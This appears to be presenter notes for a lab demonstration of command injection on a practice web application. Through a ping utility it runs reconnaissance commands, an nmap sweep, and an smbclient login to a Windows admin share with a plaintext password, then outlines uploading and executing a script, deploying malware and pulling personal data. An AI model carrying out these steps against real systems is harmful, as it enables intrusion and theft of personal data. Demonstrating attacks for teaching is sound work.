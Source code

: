 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack


Commands:
==========
    Login: wier credentials to connect.hackysock.com\
    Browse site… Exploratory work\
    Over to the ping utility\
        note the command injection flaw.\
	    whoami\
	    pwd\
	    cd ../../\
	    ls\
	    ifconfig -a | grep netmask\
	    which nmap\
	    nmap -sP 192.168.122.1/24\
	    namp -p 135 192.168.122.7\
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description\
	Figure out where uploads go\
	Upload script\
	CHMOD script\
		chmod 775 ../../hackable/uploads/pull_scripts.sh\
	Execute script\
		../../hackable/uploads/pull_scripts.sh\
	Show all the scripts that were pulled down from GitHub

Drop to Shell:
=============
Drop to shell to show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine
	


Wrap up:
========
